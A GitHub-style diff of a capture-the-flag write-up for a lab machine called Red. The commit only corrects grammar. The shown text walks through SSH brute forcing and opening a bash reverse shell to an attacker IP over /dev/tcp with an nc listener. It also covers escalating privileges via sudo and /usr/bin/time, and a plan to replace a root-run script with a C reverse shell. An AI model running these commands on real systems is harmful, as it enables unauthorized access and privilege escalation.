

Before and after one commit to 0xt1m/ctf, a Markdown page: Red1/report.md, the part around one of its changes. Drawn GitHub-style.

````diff
--- a/Red1/report.md
+++ b/Red1/report.md
@@ -75,14 +75,14 @@ Now, we have got our custom wordlist. Let's try to bruteforce into `ssh`.<br>
 Looks like it worked.<br>
 
 When we try to use `cat` command it runs `vi`, but when we use `vi` it runs `cat`.<br>
-We can see that there is thee users:<br>
+We can see that there are three users:<br>
 > ippsec<br>
 > john <br>
 > oxdf <br>
 
-After a couple of minutes using the `ssh shell` the connection was closed. The attacker made a script that kicks us out. The same password does not work, but we can brute force it again.<br>
+After a couple of minutes using the `ssh shell` the connection was closed. The attacker made a script that kicked us out. The same password does not work, but we can brute force it again.<br>
 
-### Upgrading our shell so we do not get kick out.
+### Upgrading our shell so we do not get kicked out.
 1. Start a nc listener. `nc -lvnp 4444`
 2. Run a simple reverse-shell on the victim machine. `bash -i >& /dev/tcp/10.0.4.4/4444 0>&1`
 3. `python3 -c 'import pty;pty.spawn("/bin/bash")'` in our new reverse-shell.
@@ -90,7 +90,7 @@ After a couple of minutes using the `ssh shell` the connection was closed. The a
 5. `stty raw -echo; fg`
 9. `export TERM=xterm`
 <br>
-So now we have our new shell. Let's look how we can escalate our privileges.<br>
+So now we have our new shell. Let's look at how we can escalate our privileges.<br>
 The simplest way is to run `sudo -l` <br>
 ```
 User john may run the following commands on red:
@@ -99,16 +99,16 @@ User john may run the following commands on red:
 This is what we got.<br>
 Go to https://gtfobins.github.io/gtfobins and find what we can do with /usr/bin/time.<br>
 `sudo /usr/bin/time /bin/sh`<br>
-However, by default sudo will try to run a tool with the privileges of root user, but we have only privileges of ippsec, so we need specify our user, so our command will look like:<br>
+However, by default sudo will try to run a tool with the privileges of the root user, but we have only privileges of ippsec, so we need to specify our user, so our command will look like:<br>
 `sudo -u ippsec /usr/bin/time /bin/sh`<br>
 _It is better to escalate our privileges to *ippsec* before we upgrade our shell_<br>
 Let's look can we escalate our privileges to root.<br>
-I used the next command to find all the folders where I have the permissions to write.<br>
+I used the next command to find all the folders where I have permission to write.<br>
 `find / -writable -type d 2>/dev/null`<br>
 It gave a couple of them, but the interesting one for me was:<br>
 > /var/www/wordpress/.git <br>
 If we go there, there are two files owned by root.<br>
-I assume that root user run the rev file occassionally. But let's look at the processes to make sure.<br>
+I assume that the root user runs the rev file occasionally. But let's look at the processes to make sure.<br>
 I am going to use pspy64s to look at the processes. https://github.com/wildkindcc/Exploitation/blob/master/00.PostExp_Linux/pspy/pspy64s.
-I downloaded to my machine, started python http server and downloaded to the victim's machine.<br>
-For some reason it says that there is no storage left and I cannot download anything to the machine. However the only thing that I had to do was replace the rev script with my own which I had permission to do. My own script would a simple reverse shell coded in C. After root would run the rev script again I would get my root reverse-shell.
+I downloaded it to my machine, started the Python HTTP server, and downloaded it to the victim's machine.<br>
+For some reason, it says that there is no storage left and I cannot download anything to the machine. However, the only thing that I had to do was replace the rev script with my own which I had permission to do. My own script would be a simple reverse shell coded in C. After root would run the rev script again I would get my root reverse-shell.
````
Also changed, not shown: other parts of Red1/report.md (+14 -14 lines).
